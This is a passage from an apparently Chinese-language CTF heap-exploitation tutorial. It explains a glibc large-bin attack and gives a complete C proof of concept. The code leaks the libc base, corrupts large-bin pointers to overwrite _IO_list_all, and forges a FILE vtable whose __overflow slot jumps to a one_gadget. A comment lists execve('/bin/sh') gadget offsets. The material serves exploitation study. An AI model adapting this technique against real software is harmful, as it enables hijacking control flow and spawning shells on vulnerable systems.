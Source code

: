 &emsp;&emsp;<font size=2>因此最后两个变量都被修改为了堆地址，利用这一个`large-bin attck`我们可以劫持`vtable`，`_IO_FILE`结构体啊等等等等，不过最好有个重叠堆块，不然在链入堆块的时候因为四个指针都会修改，会破坏原来布置好的数据。利用这一个技巧我们可以简单的劫持一下vtable试试：</font></br>

```C
#include<stdio.h>
#include<stdlib.h>
 
typedef unsigned long ul;

int main()
{
	void *p1, *p2, *p3, *p4;
	ul *p;
	ul libc_base = 0;
	ul one_gadget = 0xf1147;
	ul _IO_list_all = 0x3c5520;

	p1 = malloc(0x400);
	malloc(0x20);
	p2 = malloc(0x410);
	malloc(0x20);
	p3 = malloc(0x420);
	malloc(0x20);

	free(p1);
	free(p2);
	p = (ul*)p1;
	libc_base = *p - 0x3c4b78;

	malloc(0x20);
	free(p3);

	p = (ul*)p2;
	*p = 0;
	*(p+1) = libc_base + _IO_list_all - sizeof(void*)*2;
	*(p+2) = 0;
	*(p+3) = libc_base + _IO_list_all - sizeof(void*)*4;

	malloc(0x20);
	p = (ul*)((ul)p3 - sizeof(void*)*2);
	*p = 0;
	*(p + 4) = 0;  // IO_write_base
	*(p + 5) = 1;  // IO_write_ptr
	*(p + 27) = (ul)p;  // vtable
	*(p + 3) = libc_base + one_gadget;  // __overflow

	// trigger it
	free(p3);

	return 0;
}

/*
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL
```